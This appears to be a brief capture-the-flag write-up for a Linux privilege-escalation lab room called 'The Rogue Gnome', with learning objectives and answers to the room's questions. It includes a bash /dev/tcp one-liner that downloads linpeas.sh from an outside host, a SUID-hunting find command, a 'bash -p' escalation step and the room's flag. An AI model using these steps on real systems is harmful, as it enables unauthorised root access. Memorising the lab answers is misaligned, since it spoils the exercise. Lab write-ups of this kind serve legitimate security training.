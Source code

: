 # Networking: The Rogue Gnome

## Notes
```
Learning Objectives:
We're going to be learning the fundamentals of privilege escalation, what it entails and how it is used day-to-day without you even realising in legitimate circumstances. After covering the fundamentals of Linux file permissions and understanding why we may want to escalate our privileges as a pentester, we're going to put our theory into practice by abusing a common file permission misconfiguration on Linux.

export RHOST=10.9.18.129
export RPORT=9999
export LFILE=linpeas.sh
bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
    3<>/dev/tcp/$RHOST/$RPORT \
    | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
```

## Questions
1. What type of privilege escalation involves using a user account to execute commands as an administrator?
```
vertical
```

2. What is the name of the file that contains a list of users who are a part of the sudo group?
```
sudoers
```

3. What are the contents of the file located at /root/flag.txt?
```
finding executables with SUID
find / -perm -u=s -type f 2>/dev/null
using bash as bash -p
thm{2fb10afe933296592}
```